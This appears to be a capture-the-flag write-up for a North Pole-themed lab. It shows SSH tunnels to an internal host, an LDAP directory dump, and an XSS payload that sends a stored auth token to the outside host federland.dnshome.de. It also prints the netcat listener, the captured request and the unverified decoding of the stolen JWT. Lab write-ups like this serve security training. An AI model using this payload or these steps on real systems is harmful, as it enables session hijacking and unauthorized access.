 
## Database with XSS Vulnerability, JavaScript Web Token (JWT) Vulnerability and LDAP Injection Vulnerability 


```
ssh -L 18080:10.142.0.6:80  -L 2222:10.142.0.6:22 -L 3890:10.142.0.6:389 -L 28080:10.142.0.6:8080  alabaster_snowball@l2s.northpolechristmastown.com
```

```
ldapsearch -h 127.0.0.1 -p 3890 -x -b "dc=northpolechristmastown,dc=com" > edb_ldap_dump.txt
```

```
cat edb_ldap_dump.txt | grep "mail:" | cut -d":" -f2 | cut -d"@" -f1 > usernames.txt
```

### XSS

```
hi plz restore password <IFRAME SRC=# onload="document.getElementsByClassName('ticketlogo tooltipped')[0].setAttribute('src','http://federland.dnshome.de:56123/'+localStorage.getItem('np-auth'))"></IFRAME>

nc -l -p 56123
GET /eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkZXB0IjoiRW5naW5lZXJpbmciLCJvdSI6ImVsZiIsImV4cGlyZXMiOiIyMDE3LTA4LTE2IDEyOjAwOjQ3LjI0ODA5MyswMDowMCIsInVpZCI6ImFsYWJhc3Rlci5zbm93YmFsbCJ9.M7Z4I3CtrWt4SGwfg7mi6V9_4raZE5ehVkI9h04kr6I HTTP/1.1
Referer: http://127.0.0.1/reset_request?ticket=W0M50-B1XAN-2L4ND-247NN
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
Accept: */*
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-US,*
Host: federland.dnshome.de:56123

 echo eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkZXB0IjoiRW5naW5lZXJpbmciLCJvdSI6ImVsZiIsImV4cGlyZXMiOiIyMDE3LTA4LTE2IDEyOjAwOjQ3LjI0ODA5MyswMDowMCIsInVpZCI6ImFsYWJhc3Rlci5zbm93YmFsbCJ9.M7Z4I3CtrWt4SGwfg7mi6V9_4raZE5ehVkI9h04kr6I | base64 -d
{"alg":"HS256","typ":"JWT"}...
```

### JWT

```bash
pyjwt  ecode --no-verify eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkZXB0IjoiRW5naW5lZXJpbmciLCJvdSI6ImVsZiIsImV4cGlyZXMiOiIyMDE3LTA4LTE2IDEyOjAwOjQ3LjI0ODA5MyswMDowMCIsInVpZCI6ImFsYWJhc3Rlci5zbm93YmFsbCJ9.M7Z4I3CtrWt4SGwfg7mi6V9_4raZE5ehVkI9h04kr6I
Essphrase for key '/root/.ssh/id_rsa': 
nter passphrase for key '/root/.ssh/id_rsa': 
{"dept": "Engineering", "ou": "elf", "expires": "2017-08-16 12:00:47.248093+00:00", "uid": "alabaster.snowball"}
```
